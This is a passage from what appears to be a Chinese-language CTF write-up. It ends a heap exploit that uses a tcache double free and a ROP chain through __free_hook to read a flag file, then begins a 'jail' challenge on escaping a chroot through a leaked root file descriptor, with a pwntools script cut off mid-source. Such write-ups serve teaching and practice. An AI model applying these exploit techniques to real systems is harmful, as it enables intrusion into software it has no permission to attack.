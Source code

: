 ```python
leaked_stack = u64(io.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
ret = leaked_stack - 0x220

free_hook = libc_base + libc.sym['__free_hook']

read_addr = elf.plt['read']
puts_addr = elf.plt['puts']
open_addr = libc_base + libc.sym['open']

pop_rdi_ret = libc_base + libc.search(asm("pop rdi\nret")).next()
pop_rsi_ret = libc_base + libc.search(asm("pop rsi\nret")).next()
pop_rdx_ret = libc_base + libc.search(asm("pop rdx\nret")).next()

payload  = p64(pop_rdi_ret) + p64(0) + p64(pop_rsi_ret) + p64(free_hook) + p64(pop_rdx_ret) + p64(4) + p64(read_addr)
payload += p64(pop_rdi_ret) + p64(free_hook) + p64(pop_rsi_ret) + p64(4) + p64(open_addr)
payload += p64(pop_rdi_ret) + p64(3) + p64(pop_rsi_ret) + p64(free_hook) + p64(pop_rdx_ret) + p64(0x30) + p64(read_addr)
payload += p64(pop_rdi_ret) + p64(free_hook) + p64(puts_addr)

dele(9)
dele(9)

add(0xb0, p64(ret)) # 13 9
add(0xb0, 'bbbb') # 14 9
add(0xb0, payload) # 15 ret

io.send('flag')

# gdb.attach(io)

io.interactive()
```

### jail | Author：Lunatic

本题需要发送 elf 文件进行 chroot 沙箱逃逸。因为在 init 函数中创建了根目录的文件描述符且该文件描述符未被关闭，故可利用其进行逃逸，读取根目录下的 flag。

#### 利用脚本如下：

```python
# pwn.challenge.mini.lctf.online 10092

from pwn import *

if args.G:
    io = remote('pwn.challenge.mini.lctf.online', 10092)
else:
    io = process('./chroot')

f = open('./c2', 'rb')
data = f.read()
length = len(data)

'''
/* c2.c */

#include <fcntl.h>
#include <stdlib.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdio.h>

```